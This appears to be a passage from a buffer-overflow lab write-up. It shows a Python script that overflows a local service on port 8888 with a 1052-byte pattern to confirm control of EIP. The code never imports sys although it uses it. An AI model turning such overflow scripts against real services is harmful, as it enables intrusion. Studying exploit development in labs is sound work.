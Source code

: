 We want to verify id the offset is correct, as well as the capacity of manopulate the EIP and see what will be shown after el EIP 
`#!/usr/bin/python3`

`import socket`
`import signal`

`def def_handler(sig, frame):`
    `print("\n\n[!] Quitting...\n")`
    `sys.exit(1)`

`# Ctrl+C`
`signal.signal(signal.SIGINT, def_handler)`

`#Global attributes`
`ip_address="127.0.0.1"`
`offset = 1052`
`before_eip = b"A"*offset`
`eip = b"B"*4`
`after_eip = b"C"*500`

`payload = before_eip + eip +after_eip`
`def makeConnection():`

    `s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)`
    `s.connect((ip_address, 8888))`
    `s.send(payload)`


`if __name__=='__main__':`
    `makeConnection()`

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324144827.png)
